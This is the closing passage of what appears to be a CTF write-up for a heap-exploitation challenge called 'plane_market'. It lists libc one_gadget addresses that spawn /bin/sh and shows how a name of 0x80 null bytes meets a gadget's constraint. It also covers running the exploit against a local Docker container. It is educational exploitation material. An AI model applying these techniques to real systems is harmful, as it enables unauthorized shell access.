Now we just need a one gadget to jump to.

### Finding one gadget

available one gadgets: 

```
0xc84da execve("/bin/sh", r12, r13)
constraints:
  [r12] == NULL || r12 == NULL
  [r13] == NULL || r13 == NULL

0xc84dd execve("/bin/sh", r12, rdx)
constraints:
  [r12] == NULL || r12 == NULL
  [rdx] == NULL || rdx == NULL

0xc84e0 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0xe664b execve("/bin/sh", rsp+0x60, environ)
constraints:
  [rsp+0x60] == NULL
```
At first non of the one gadgets worked for me but remember in the beginning that we had to input a name of the player? That name is stored on the stack and have size 0x80 meaning that if the name is set to \x00*0x80 we will satisfy conditions for the last one gadget as we fill 0x80 bytes from $rsp with nulls:

```python
sendName('\x00'*0x80)
```

Now it pops a shell :-) 

## Running the exploit
I have included a docker image running debian with the same libc version. 

to install and run docker image:

1. `cd dockerChallangeImage`
2. `sudo docker build -t planemarket .`
3. `sudo docker run -d -p 1024:1024 --rm -it planemarket`

Now we are hosting a server running the plane_market executable at port 1024.

To execute the exploit against the docker container just run `./exploit.sh` :-)

### debugging the exploit

be sure to have all the requirements installed and run `./debug.sh`
The gefinit file will search for gef in /opt:

```bash
source /opt/.gdbinit-gef.py
```

I recommend using gef over pwndbg for this challenge as gef has better support for heap exploitation.
